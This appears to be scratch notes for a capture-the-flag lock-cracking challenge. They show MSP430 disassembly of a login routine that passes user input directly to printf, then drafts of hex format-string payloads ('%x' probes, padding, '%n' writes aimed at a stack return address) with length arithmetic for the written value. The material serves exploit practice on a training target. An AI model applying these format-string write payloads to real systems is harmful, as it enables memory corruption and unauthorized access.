4438 <main>
4438:  0441           mov	sp, r4
443a:  2453           incd	r4
443c:  3150 0cfe      add	#0xfe0c, sp
4440:  3012 da44      push	#0x44da "Enter your username below to authenticate."
4444:  b012 c645      call	#0x45c6 <printf>
4448:  b140 0645 0000 mov	#0x4506 ">> ", 0x0(sp)
444e:  b012 c645      call	#0x45c6 <printf>
4452:  2153           incd	sp
4454:  3e40 f401      mov	#0x1f4, r14
4458:  3f40 0024      mov	#0x2400, r15
445c:  b012 8a45      call	#0x458a <getsn> // Read username to 0x2400 (Len 0x1f4 - 500)
4460:  3e40 0024      mov	#0x2400, r14
4464:  0f44           mov	r4, r15
4466:  3f50 0afe      add	#0xfe0a, r15
446a:  b012 dc46      call	#0x46dc <strcpy> // Copy to stack
446e:  3f40 0afe      mov	#0xfe0a, r15
4472:  0f54           add	r4, r15
4474:  0f12           push	r15
4476:  b012 c645      call	#0x45c6 <printf> // Print username
447a:  2153           incd	sp
447c:  3f40 0a00      mov	#0xa '\n', r15
4480:  b012 4e45      call	#0x454e <putchar>
4484:  0f44           mov	r4, r15
4486:  3f50 0afe      add	#0xfe0a, r15
448a:  b012 b044      call	#0x44b0 <conditional_unlock_door>
448e:  0f93           tst	r15
4490:  0324           jz	$+0x8 <main+0x60>
4492:  3012 0a45      push	#0x450a
4496:  023c           jmp	$+0x6 <main+0x64>
4498:  3012 1a45      push	#0x451a
449c:  b012 c645      call	#0x45c6 <printf>
44a0:  0f43           clr	r15
44a2:  3150 f601      add	#0x1f6, sp

ret sp address: 420a

%x   %x   %x  %x   %x   %x   %x   %x   %x   %x   %x   %x   %x   %x
7825 7825 7825 7825 7825 7825 7825 7825 7825 7825 7825 7825 7825 7825

SP	 A*34 + len(0a42)                                                                       %n
0a42 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 256e
STR  SP    %s
da44 0a42 2573 256e
Real Len=0x2f = 47
da44 da44 0a42 2573 2573 256e
Real Len=0x5c = 92
diff -> 45
a_n = 2 + 45*n
hex(2 + 45*204 + 34) = 0x2400
.
80ff 0a42 2573 256e
Real Len=0x82 = 130
80ff 80ff 0a42 2573 2573 256e
Real Len=0x102 = 258
diff -> 128
a_n = 2 + 128*n
hex(2 + 128*71 + 2 + 45*2 + 34) = 0x2400
.
